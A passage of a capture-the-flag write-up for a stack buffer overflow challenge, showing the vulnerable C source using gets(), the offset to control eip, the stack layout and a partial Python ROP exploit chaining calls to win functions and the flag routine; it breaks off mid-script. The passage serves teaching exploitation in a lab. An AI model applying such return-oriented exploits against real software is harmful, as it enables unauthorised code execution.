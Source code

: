 ```C

  if (win1 && win2 && arg_check2 == 0xDEADBAAD) {
    printf("%s", flag);
    return;
  }
  else if (win1 && win2) {
    printf("Incorrect Argument. Remember, you can call other functions in between each win function!\n");
  }
  else if (win1 || win2) {
    printf("Nice Try! You're Getting There!\n");
  }
  else {
    printf("You won't get the flag that easy..\n");
  }
}

void vuln() {
  char buf[16];
  printf("Enter your input> ");
  return gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
}
```

This challenge presents us with a typically looking memory corruption. With `pattern_offset.rb` we find the offset to control `eip`. After this, we begin to break down the logic of the code. To get the flag, we need to set both `win1` and `win2` to true while also passing the argument `0xDEADBAAD` to the `flag()` function. To understand how to call these functions and pass them each parameters requires we understand how to call stack frame works.

```
Address of win1
Return to address of win_function2()
Return to address of flag
argument for win_function2()
arguement for flag()
```

```python
eip_offset = 28
win1_addr = 0x080485cb
win2_addr = 0x080485d8
flag_addr = 0x0804862b

def exploit(r):
    payload = ''
    payload += 'A'*eip_offset
    #payload += os.popen("`locate 'pattern_create.rb'` -l 50").read()

    #Return to win1 then win2 with arg1=0xBAAAAAAD
    rop = ''
    rop += p32(win1_addr)
    rop += p32(win2_addr)  #return addr after win_function1()
    rop += p32(flag_addr)  #return addr after win_function2()
```
